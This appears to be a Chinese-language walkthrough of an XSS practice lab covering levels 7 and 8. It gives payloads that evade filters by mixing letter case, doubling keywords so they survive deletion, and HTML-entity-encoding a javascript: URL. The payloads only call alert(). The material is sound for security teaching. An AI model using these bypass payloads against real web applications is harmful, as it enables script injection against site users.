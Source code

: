 ![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474105637-7e55f91b-ec6a-4711-8f82-43e94f0a4c47.png)

```javascript
"> <sCript>alert()</sCript> <"
 " Onfocus=javascript:alert() "
 "> <a hRef=javascript:alert()>x</a> <"
```

**本关小结**：大小写法绕过<font style="color:#fe2c24;">str_replace()</font>函数   

# <font style="color:rgb(51, 51, 51);">level7</font>
<font style="color:rgb(51, 51, 51);">先丢测试字</font>

```javascript
" OnFocus <sCriPt> <a hReF=javascript:alert()>
 变成了
 " focus <> <a =java:alert()>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474121111-7dc37720-9c72-4110-ac78-10956919f30c.png)

<font style="color:rgb(51, 51, 51);">双写绕过</font>

```javascript
"> <a hrehreff=javasscriptcript:alert()>x</a> <"
```

**本关小结**：双拼写绕过删除函数   

# <font style="color:rgb(51, 51, 51);">level8</font>
<font style="color:rgb(51, 51, 51);">先丢入测试代码测试</font>

```javascript
" sRc DaTa OnFocus <sCriPt> <a hReF=javascript:alert()>
```

![](https://cdn.nlark.com/yuque/0/2024/png/48966482/1728474294369-fb7b85db-043c-48f9-b264-2c72386a55ed.png)

<font style="color:rgb(51, 51, 51);"> input标签添加了html实体转化函数还把双引号也给实体化了， 添加了小写转化函数，还有过滤掉了src、data、onfocus、href、script、"（双引号）  </font>

**<font style="color:rgb(51, 51, 51);">解决办法</font>**

<font style="color:rgb(51, 51, 51);">能利用href的隐藏属性自动Unicode解码，我们可以插入一段js伪协议</font>

```javascript
javascript:alert()
```

<font style="color:rgb(51, 51, 51);">利用在线工具进行Unicode编码后得到</font>[在线Unicode编码解码](https://www.matools.com/code-convert-unicode)

```javascript
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;
```
